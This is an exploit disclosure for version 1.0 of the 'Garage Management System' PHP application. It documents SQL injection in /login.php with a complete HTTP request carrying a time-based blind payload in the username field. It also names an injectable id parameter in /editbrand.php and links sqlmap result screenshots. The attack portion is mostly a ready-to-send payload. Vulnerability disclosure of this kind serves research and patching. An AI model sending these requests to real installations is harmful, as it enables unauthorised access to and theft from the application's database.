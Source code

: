 ### Exploit Title: Garage Management System - Multiple SQL injections
### Date: 2022-07/19
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/15485/garage-management-system-using-phpmysql-source-code.htm
### Version: 1.0
### Tested on: windows10 + phpstudy

# 1./login.php
/login.php SQL injection exists at the login port

### Sample request POC #1

```
POST /login.php HTTP/1.1
Host: [TARGET URL/IP]
Content-Length: 41
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://shen-ji.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://shen-ji.com/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=coj91b4jkkol1s8oalg3r7in12
Connection: close

username=1@a.com' AND (SELECT 6427 FROM (SELECT(SLEEP(5)))LwLu) AND 'hsvT'='hsvT&password=412312&login=
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/20220719153600.png "Garage Management System")


# 2./editbrand.php
/editbrand.php SQL injection exists for parameter ID

### Sample request POC #2

```
http://[ip:port]/editbrand.php?id=1
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/20220719154113.png "Garage Management System")


